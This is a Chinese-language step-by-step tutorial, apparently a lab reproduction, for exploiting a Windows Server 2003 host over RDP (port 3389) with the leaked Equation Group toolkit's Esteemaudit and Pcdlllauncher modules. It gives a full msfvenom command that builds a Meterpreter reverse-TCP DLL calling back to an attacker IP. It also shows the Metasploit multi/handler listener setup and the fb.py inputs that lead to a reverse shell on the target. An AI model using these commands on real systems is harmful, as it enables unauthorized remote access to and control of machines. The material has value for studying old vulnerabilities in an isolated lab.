### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.4)：开放了3389端口的Windows Server 2003

以上所有IP之间均可以直接访问
### 验证步骤：
<!--more-->
#### 第一步：生成可执行的恶意dll文件
0x01
首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：

0x02
执行命令：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```
在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell
0x03
点击xshell如图位置

打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图


#### 第二步：配置kali使得kali处于监听状态
0x01
依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功

这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击
0x01
将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错

0x02
打开命令提示符，输入

```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图

最后敲击回车
0x03
显示出`fb >`之后输入命令

```
use Esteemaudit
```
使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可
（设置监听还是连接、系统位数、系统版本）

（回拨IP以及端口，端口号可以任意设置）

（配置DLL路径，需要改为实际路径）

之后几个回车即可看到连接成功，如图

0x04
接着输入命令

```
use Pcdlllauncher
```
使用Pcdlllauncher，除了下图其他保持默认即可
（改为自己的实际路径）

（之前生成的s.dll路径）

之后不断回车，会看到如图

不用理他，打开xshell可以看到已经成功反弹shell，如下图

然后就可以比如说输入shell模拟终端执行命令了
